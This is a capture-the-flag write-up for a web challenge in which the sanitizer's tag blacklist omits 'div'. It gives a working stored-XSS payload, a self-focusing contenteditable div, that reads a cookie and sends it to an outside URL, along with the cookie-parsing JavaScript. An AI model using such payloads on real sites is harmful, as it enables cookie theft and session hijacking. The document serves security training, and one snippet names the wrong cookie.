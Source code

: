 # Mission 5 ~ cross site scripting


## Goal and instructions

[Game of Apulia](https://web6.chall.necst.it/) is the latest strategic, medieval game set in Puglia, Italy. Developed by Tarantella Tech, it pushes the boundaries of what it means to play videogames in 2024. Coming soon on PC, PS4, PS5, Xbox Series S and X, Nintendo Switch.

To validate your solution, please submit an URL belonging to the domain `web6.chall.necst.it`, which, when opened in a browser:
- retrieves the value of cookie `JxNHT`, which is is already present in the cookie jar of the browser that will visit your URL (the developers were sloppy, and this cookie is not `HTTPOnly`). Pay attention to the fact that there are multiple cookies in the cookie jar: you need to submit only the value of `JxNHT`!
- submits it through a `GET` request to `https://chall.necst.it/challenges/web6/verify/[PERSONA_CODE]/[cookie]`, where `[cookie]` is the value of the cookie `JxNHT`

For example, if `document.cookie` is `JxNHT=th1s1ssupersecret`, your payload must perform a `GET` request to: `https://chall.necst.it/challenges/web6/verify/[PERSONA_CODE]/th1s1ssupersecret`.

If you are encountering issues with your payload, please notice that the administrators' browser is **already logged** in to https://chall.necst.it/, and that it actually needs to be logged in to submit a valid solution. Basically, you are also exploiting an intentional CSRF vulnerability in https://chall.necst.it/!


## Web app structure

The website has a home page, a game explanaition page, a blog page and a contact us page.


## Code overview

Examining the source code, it can be seen that the `sanitize(string)` function cleans a string by verifying that it does not contain blacklisted words.
```php
def sanitize(string):
    # Who the hell says blacklists are bad? Amateurs. Real pros use blacklists.
    # This is to let you know that blacklists are not always bad. They can be useful in some cases.
    # Here, we are using a blacklist to remove any suspicious tags from the input string.
    blacklist = ['fieldset', 'track', 'th', 'legend', 'datalist', 'button', 'details',
                 'tr', 'template', 'meta', 'label', 'noscript', 'header', 'frame', 'table',
                 'audio', 'tfoot', 'optgroup', 'footer', 'dialog', 'body', 'command', 'tbody',
                 'article', 'blockquote', 'confirm', 'link', 'svg', 'output', 'meter', 'applet',
                 'select', 'script', 'canvas', 'caption', 'thead', 'colgroup', 'form',
                 'img', 'image', 'slot', 'main', 'option', 'embed', 'iframe', 'map', 'object', 'summary',
                 'col', 'textarea', 'td', 'aside', 'section', 'address', 'marquee', 'input',
                 'video', 'nav', 'prompt', 'style', 'menu', 'area', 'progress']

    # Create a regex pattern to match any tags or suspicious patterns
    pattern = '|'.join(['<' + word + '.*>' for word in blacklist])

    # Recursively remove any tags or suspicious patterns
    while re.search(pattern, string, re.IGNORECASE):
        string = re.sub(pattern, '', string, flags=re.IGNORECASE)

    # Also blacklist javascript:
    string = re.sub(r'javascript:', 'javascript', string, flags=re.IGNORECASE)

    return string
```

If you read the blacklist carefully, you can see that **div** is one of the HTML tags that are not in the blacklist.
```php
blacklist = ['fieldset', 'track', 'th', 'legend', 'datalist', 'button', 'details',
                 'tr', 'template', 'meta', 'label', 'noscript', 'header', 'frame', 'table',
                 'audio', 'tfoot', 'optgroup', 'footer', 'dialog', 'body', 'command', 'tbody',
                 'article', 'blockquote', 'confirm', 'link', 'svg', 'output', 'meter', 'applet',
                 'select', 'script', 'canvas', 'caption', 'thead', 'colgroup', 'form',
                 'img', 'image', 'slot', 'main', 'option', 'embed', 'iframe', 'map', 'object', 'summary',
                 'col', 'textarea', 'td', 'aside', 'section', 'address', 'marquee', 'input',
                 'video', 'nav', 'prompt', 'style', 'menu', 'area', 'progress']
```


## Solution

To complete the exploit, you need to follow the following steps:

1. Determine how to get the required cookie.
   ```javascript
   document.cookie.split(';').map((c) => c.trim()).filter((c) => c.split('=')[0] == 'aNrBwXC').map((c) => c.split('=')[1])[0]
   ```
2. Determine which HTML attributes it is possible to use in the `div` tag and can be useful for exploitation.
    - `onfocus`
    - `autofocus`
    - `contenteditable`
      
3. Write the tag with the correct attributes to perform the exploit.
   ```html
   <div contenteditable onfocus="window.location.replace('https://chall.necst.it/challenges/web6/verify/5682/'.concat(document.cookie.split(';').map((c) => c.trim()).filter((c) => c.split('=')[0] == 'JxNHT').map((c) => c.split('=')[1])[0]))" autofocus>
   ```
4. Enter the previously written tag in the comment to be blogged, copy the url and enter it into the verification platform.
   ```https
   https://web6.chall.necst.it/comment/[COMMENT_NUMBER]
   ```
   > **note:** if the comment url is not shown, you need to disable scripts (it is suggested to install an extension to disable scripts such as NoScript)
   
